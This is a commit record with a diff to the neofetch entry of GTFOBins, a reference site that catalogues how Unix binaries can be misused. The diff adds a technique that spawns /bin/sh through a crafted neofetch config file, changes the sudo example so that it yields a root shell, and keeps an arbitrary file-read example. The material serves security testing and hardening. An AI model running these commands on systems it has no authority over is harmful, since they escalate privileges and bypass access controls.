

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/neofetch.md, in a window 1280 px wide. Shown: the top 849 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add neofetch shell
Co-authored-by: Andrea Cardaci <cyrus.and@gmail.com>

```diff
--- a/_gtfobins/neofetch.md
+++ b/_gtfobins/neofetch.md
@@ -1,12 +1,18 @@
 ---
-description: The file content is used as the logo while some other information is displayed on its right, thus it might not be suitable to read arbitray binary files.
 functions:
+  shell:
+    - code: |
+        TF=$(mktemp)
+        echo 'exec /bin/sh' >$TF
+        neofetch --config $TF
   file-read:
-    - code: |
+    - description: The file content is used as the logo while some other information is displayed on its right, thus it might not be suitable to read arbitray binary files.
+      code: |
         LFILE=file_to_read
         neofetch --ascii $LFILE
   sudo:
     - code: |
-        LFILE=file_to_read
-        sudo neofetch --ascii $LFILE
+        TF=$(mktemp)
+        echo 'exec /bin/sh' >$TF
+        sudo neofetch --config $TF
 ---
```
